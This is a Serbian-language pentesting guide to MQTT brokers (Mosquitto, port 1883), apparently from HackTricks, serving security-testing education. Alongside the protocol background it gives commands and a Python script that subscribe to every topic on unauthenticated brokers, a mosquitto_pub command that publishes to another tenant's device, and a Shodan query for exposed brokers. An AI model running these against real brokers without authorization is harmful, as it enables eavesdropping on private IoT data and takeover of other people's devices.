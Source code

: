 # 1883 - Pentesting MQTT (Mosquitto)

{{#include ../banners/hacktricks-training.md}}

## Osnovne informacije

**MQ Telemetry Transport (MQTT)** je poznat kao **protokol zasnovan na publish/subscribe modelu razmene poruka** koji se izdvaja po izuzetnoj jednostavnosti i lakoći. Ovaj protokol je posebno prilagođen okruženjima u kojima uređaji imaju ograničene resurse i rade preko mreža koje karakterišu mala propusnost, velika latencija ili nepouzdane veze. Osnovni ciljevi MQTT-a uključuju minimiziranje korišćenja mrežne propusnosti i smanjenje opterećenja resursa uređaja. Dodatno, teži održavanju pouzdane komunikacije i obezbeđivanju određenog stepena garancije isporuke. Ovi ciljevi čine MQTT izuzetno pogodnim za rastuće oblasti machine-to-machine (M2M) komunikacije i Internet of Things (IoT), gde je ključno efikasno povezivanje velikog broja uređaja. Osim toga, MQTT je veoma koristan za mobilne aplikacije, gde su ušteda propusnosti i trajanja baterije ključni.

**Default port:** 1883
```
PORT     STATE SERVICE                 REASON
1883/tcp open  mosquitto version 1.4.8 syn-ack
```
## Inspekcija saobraćaja

Kada MQTT brokers primi **CONNECT** paket, vraća se **CONNACK** paket. Taj paket sadrži return code koji je ključan za razumevanje statusa veze. Return code **0x00** znači da su kredencijali prihvaćeni, što označava uspešnu konekciju. S druge strane, return code **0x05** signalizira da su kredencijali neispravni, čime se konekcija onemogućava.

Na primer, ako broker odbije konekciju zbog neispravnih kredencijala, scenario bi izgledao otprilike ovako:
```
{
"returnCode": "0x05",
"description": "Connection Refused, not authorized"
}
```
![](<../images/image (976).png>)

### [**Brute-Force MQTT**](../generic-hacking/brute-force.md#mqtt)

## Pentesting MQTT

**Authentication is totally optional** i čak i ako se authentication vrši, **encryption is not used by default** (credentials se šalju u clear text). MITM attacks i dalje mogu biti izvedeni da bi se ukrale passwords.

Za povezivanje na MQTT servis možete koristiti: [https://github.com/bapowell/python-mqtt-client-shell](https://github.com/bapowell/python-mqtt-client-shell) i pretplatiti se na sve topics radeći:
```
> connect (NOTICE that you need to indicate before this the params of the connection, by default 127.0.0.1:1883)
> subscribe "#" 1
> subscribe "$SYS/#"
```
Takođe možete koristiti [**https://github.com/akamai-threat-research/mqtt-pwn**](https://github.com/akamai-threat-research/mqtt-pwn)

Takođe možete koristiti:
```bash
apt-get install mosquitto mosquitto-clients
mosquitto_sub -t 'test/topic' -v #Subscribe to 'test/topic'
mosquitto_sub -h <host-ip> -t "#" -v #Subscribe to ALL topics.
```
Ili možete **pokrenuti ovaj kod da pokušate da se povežete na MQTT servis bez authentication, subscribe na sve topic-ove i slušate ih**:
```python
#This is a modified version of https://github.com/Warflop/IOT-MQTT-Exploit/blob/master/mqtt.py
import paho.mqtt.client as mqtt
import time
import os

HOST = "127.0.0.1"
PORT = 1883

def on_connect(client, userdata, flags, rc):
client.subscribe('#', qos=1)
client.subscribe('$SYS/index.html#')

def on_message(client, userdata, message):
print('Topic: %s | QOS: %s  | Message: %s' % (message.topic, message.qos, message.payload))

def main():
client = mqtt.Client()
client.on_connect = on_connect
client.on_message = on_message
client.connect(HOST, PORT)
client.loop_start()
#time.sleep(10)
#client.loop_stop()

if __name__ == "__main__":
main()
```
### Model objavljivanja/pretplate <a href="#b667" id="b667"></a>

Model objavljivanja/pretplate se sastoji od:

- **Publisher**: objavljuje poruku na jedan (ili više) topic(a) u brokeru.
- **Subscriber**: pretplaćuje se na jedan (ili više) topic(a) u brokeru i prima sve poruke poslate od publisher-a.
- **Broker**: rutira sve poruke od publisher-a ka subscriber-ima.
- **Topic**: sastoji se iz jednog ili više nivoa koji su razdvojeni kosom crtom (npr., /smartshouse/livingroom/temperature).

### Packet Format <a href="#f15a" id="f15a"></a>

Svaki MQTT paket sadrži fiksno zaglavlje (Figura 02).Figura 02: Fiksno zaglavlje

![https://miro.medium.com/max/838/1*k6RkAHEk0576geQGUcKSTA.png](https://miro.medium.com/max/838/1*k6RkAHEk0576geQGUcKSTA.png)

### Packet Types

- CONNECT (1): Pokreće ga klijent da zatraži konekciju ka serveru.
- CONNACK (2): Potvrda servera o uspešnoj konekciji.
- PUBLISH (3): Koristi se za slanje poruke od klijenta ka serveru ili obrnuto.
- PUBACK (4): Potvrda prijema PUBLISH paketa.
- PUBREC (5): Deo protokola isporuke poruke koji osigurava da je poruka primljena.
- PUBREL (6): Dalja potvrda u isporuci poruke, označava oslobađanje poruke.
- PUBCOMP (7): Završni deo protokola isporuke poruke, označava završetak.
- SUBSCRIBE (8): Zahtev klijenta za slušanje poruka sa teme.
- SUBACK (9): Potvrda servera na SUBSCRIBE zahtev.
- UNSUBSCRIBE (10): Zahtev klijenta da prestane da prima poruke sa teme.
- UNSUBACK (11): Odgovor servera na UNSUBSCRIBE zahtev.
- PINGREQ (12): Heartbeat poruka koju šalje klijent.
- PINGRESP (13): Odgovor servera na heartbeat poruku.
- DISCONNECT (14): Pokreće ga klijent da završi konekciju.
- Vrednosti 0 i 15 su rezervisane i njihova upotreba je zabranjena.

## Napadi na IoT MQTT ekosistem: nešifrovani brokeri i zaobilaženje ACL-a za teme

Mnoge potrošačke IoT platforme izlažu MQTT brokere koje koriste dve različite uloge:
- Gateway/hub uređaji koji povezuju radio protokole (npr., BLE/LoRa/Zigbee) sa cloud-om.
- Mobile apps ili web backendi koji kontrolišu uređaje preko “app” topic-a.

Uobičajene slabosti koje možete iskoristiti tokom pentest-a:

- Nešifrovani MQTT preko nestandardnih portova (npr., TCP/8001) umesto MQTTS. Bilo koji posmatrač na putu može pročitati kredencijale i kontrolne frame-ove. Koristite Wireshark da uočite nešifrovan CONNECT/CONNACK i SUBSCRIBE/PUBLISH saobraćaj na neuobičajenim portovima.
- Slabi ili nepostojeći per-tenant topic ACL-ovi. Ako su teme imenovane samo po deviceId (npr., "/tenantless/<deviceId>/tx"), bilo koji autentifikovani korisnik može PUBLISH-ovati na uređaje drugih tenant-a.
- Curenje osetljivih podataka preko maintenance/admin tema (npr., Wi‑Fi kredencijali emitovani nešifrovano nakon promena konfiguracije).

Primeri (zamenite rezervisana mesta stvarnim vrednostima):

Subscribe-ujte na potencijalno osetljive teme sa poznatim prefiksima i device ID-evima:
```bash
# Using mosquitto_sub
mosquitto_sub -h <broker> -p <port> -V mqttv311 \
-i <client_id> -u <username> -P <password> \
-t "<topic_prefix>/<deviceId>/admin" -v
```
Kontrola između zakupaca kada su ACLs slabi (objavljivanje na topic uređaja drugog zakupca):
```bash
mosquitto_pub -h <app-broker> -p <port> -V mqttv311 \
-i <your_client_id> -u <your_username> -P <your_password> \
-t "/ys/<victimDeviceId>/tx" \
-m '{"method":"Device.setState","params":{"state":{"power":"on"}},"targetDevice":"<victimDeviceId>"}'
```
## Shodan

- `port:1883 MQTT`
- Nešifrovani MQTT na nestandardnim portovima je čest u IoT-u. Razmislite o pretrazi brokera na alternativnim portovima i potvrdite to detekcijom protokola.

## Reference

- [How a $20 Smart Device Gave Me Access to Your Home](https://bishopfox.com/blog/how-a-20-smart-device-gave-me-access-to-your-home)

{{#include ../banners/hacktricks-training.md}}
